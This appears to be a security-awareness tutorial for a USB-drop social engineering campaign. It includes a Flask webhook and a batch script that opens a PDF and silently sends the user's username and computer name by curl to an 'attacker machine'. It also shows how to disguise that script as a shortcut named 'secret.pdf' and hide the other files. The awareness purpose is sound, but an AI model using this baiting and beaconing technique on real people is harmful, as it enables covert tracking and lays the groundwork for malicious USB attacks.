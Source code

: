 ```yaml
---
icon: usb
---
```


# USB stick awareness

If you watch Mr. Robot, you must remember a scene where Darlene drops several USB sticks around a prison in order to Elliot get an reverse shell access. All that is needed is someone to pick it up and plug into a computer. Pretty cool, right?

<figure><img src="../.gitbook/assets/usbstick.gif" alt=""><figcaption><p>Mr. Robot Season 1, Episode 6.</p></figcaption></figure>

So, I'm not actually going to show how to create a Rubber Ducky for malicious purposes, instead, let's create a social engineering campaign with regular USB sticks. The purpose is to drop the USB sticks and create awareness to every user.

We need an attacker machine, ideally Kali running a Flask server, and as many USB sticks as you want.

So, let's dive into it!

**Prerequisites**

* **Python**: Make sure you have Python installed on your machine. You can download it from python.org.
*   **Flask**: You can install Flask using pip. Open your terminal or command prompt and run:

    ```bash
    pip install Flask
    ```

**Step-by-Step Guide to Create a Webhook**

1.  **Create a New Directory**: Create a new directory for your webhook project and navigate into it.

    ```bash
    mkdir my_webhook
    cd my_webhook
    ```
2. **Create a Python File**: Create a new Python file, e.g., `webhook.py`, and open it in your text editor.
3.  **Write the Webhook Code**: Add the following code to `webhook.py`:

    ```python
    from flask import Flask, request, jsonify
    import logging

    app = Flask(__name__)

    # Set up logging
    logging.basicConfig(level=logging.INFO)

    @app.route('/webhook', methods=['POST'])
    def webhook():
        # Get the JSON data from the request
        data = request.json
        
        # Log the received data
        logging.info(f"Received data: {data}")

        # Respond with a success message
        return jsonify({"status": "success", "message": "Data received"}), 200

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=5000)
    ```
4.  **Run the Webhook Server**: In your terminal, run the following command to start the Flask server:

    ```bash
    python webhook.py
    ```

    The server will start and listen for incoming requests on `http://localhost:5000/webhook`.
5.  **Testing the Webhook**: You can test the webhook using a tool like curl or Postman. Here’s how to test it using curl: Open a new terminal window and run:

    {% code overflow="wrap" %}
    ```bash
    curl -X POST http://localhost:5000/webhook -H "Content-Type: application/json" -d "{\"username\":\"test_user\", \"message\":\"USB accessed\"}"
    ```
    {% endcode %}

    You should see a response indicating that the data was received, and the server logs should show the received data.

**Now for the USB stick**

1.  **Create a batch file**: Create a new batch file, **script.bat** in the root of the USB stick:

    {% code overflow="wrap" %}
    ```batch
    @echo off
    setlocal

    REM Open Social Engineering Awareness document
    start "" "awareness.pdf"

    REM Retrieve user information
    set USERNAME=%USERNAME%
    set COMPUTERNAME=%COMPUTERNAME%

    REM Set USERINFO with escaped quotes
    set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}

    echo Sending the following JSON: %USERINFO%

    REM Send the information to the Flask server
    curl -X POST http://server_ip:5000/webhook -H "Content-Type: application/json" -d "%USERINFO%"

    Endlocal
    ```
    {% endcode %}

    Make sure you change the **server\_ip** for the actual attacker machine IP.
2. **Download an .ico file**: We can use a .ico file repository like [https://www.shareicon.net/](https://www.shareicon.net/t) and download any pdf .ico you like. Place it at the root of the USB stick.
3. **Move the awareness.pdf** file also into the root of the USB stick.
4. **Create a shortcut of the script.bat file**: Right click the shortcut, go to properties and click on **Change icon** and choose the .ico file you just downloaded it. Then rename the file to something mysterious like **secret.pdf**
5. **Put all the files Hidden except for the shortcut, secret.pdf**: Then we untick the **Hidden items** option

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>All visible files</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>What the user will see, hopefully</p></figcaption></figure>

Sure, we can see it is a shortcut, and we must rely on the fact that the victim has the 'Hidden items' option unticked. However, the purpose is for the user to notice the small details and create awareness within the organization.

{% hint style="info" %}
If noticed in the script.bat had the following line:

{% code overflow="wrap" %}
```batch
set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}
```
{% endcode %}

The 'id' parameter is useful when multiple USB sticks are used. For example, you can number the USB sticks and adjust the script accordingly. If someone plugs in USB stick 1 on the first floor (build A, room X, etc.), you will receive the information on the Flask server.
{% endhint %}



